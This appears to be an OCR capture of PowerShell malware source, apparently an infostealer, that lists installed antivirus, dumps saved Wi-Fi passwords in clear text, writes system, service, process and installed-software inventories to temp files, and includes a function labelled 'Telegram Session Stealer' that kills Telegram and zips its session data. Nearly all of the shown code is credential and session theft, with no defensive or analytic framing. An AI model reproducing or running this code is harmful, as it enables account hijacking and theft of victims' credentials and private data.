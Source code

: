 	function get-installed-av {
    $wmiQuery = "SELECT * FROM AntiVirusProduct"
    $AntivirusProduct = Get-WmiObject -Namespace "root\SecurityCenter2" -Query $wmiQuery  @psboundparameters 
    $AntivirusProduct.displayName 
    }
    $avlist = get-installed-av -autosize | ft | out-string
    
    $wifipasslist = netsh wlan show profiles | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | out-string
    $wifi = $wifipasslist | out-string 
    $wifi > $env:temp\WIFIPasswords.txt
	
	# Screen Resolution

    $width = (((Get-WmiObject -Class Win32_VideoController).VideoModeDescription  -split '\n')[0]  -split ' ')[0]
    $height = (((Get-WmiObject -Class Win32_VideoController).VideoModeDescription  -split '\n')[0]  -split ' ')[2]  
    $split = "x"
    $screen = "$width" + "$split" + "$height"  
    $screen
    
    Get-CimInstance Win32_StartupCommand | Select-Object Name, command, Location, User | Format-List > $env:temp\StartUpApps.txt
    
    Get-WmiObject win32_service |? State -match "running" | select Name, DisplayName, PathName, User | sort Name | ft -wrap -autosize >  $env:LOCALAPPDATA\Temp\running-services.txt
    
    Get-WmiObject win32_process | Select-Object Name,Description,ProcessId,ThreadCount,Handles,Path | ft -wrap -autosize > $env:temp\running-applications.txt
    
    Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table > $env:temp\Installed-Applications.txt
    
    Get-NetAdapter | ft Name,InterfaceDescription,PhysicalMediaType,NdisPhysicalMedium -AutoSize > $env:temp\NetworkAdapters.txt

    # Telegram Session Stealer
	
	function telegramstealer {
    $processName = "telegram"
    try {
        if (Get-Process $processName -ErrorAction SilentlyContinue) {
            Get-Process -Name $processName | Stop-Process
        }
    } catch {
     
    }
    $path = "$env:userprofile\AppData\Roaming\Telegram Desktop\tdata"
    $destination = "$env:localappdata\temp\telegram-session.zip"
    $exclude = @("_*.config","dumps","tdummy","emoji","user_data","user_data#2","user_data#3","user_data#4","user_data#5","user_data#6","*.json","webview")
    $files = Get-ChildItem -Path $path -Exclude $exclude
    Compress-Archive -Path $files -DestinationPath $destination -CompressionLevel Fastest
    }
    telegramstealer 
    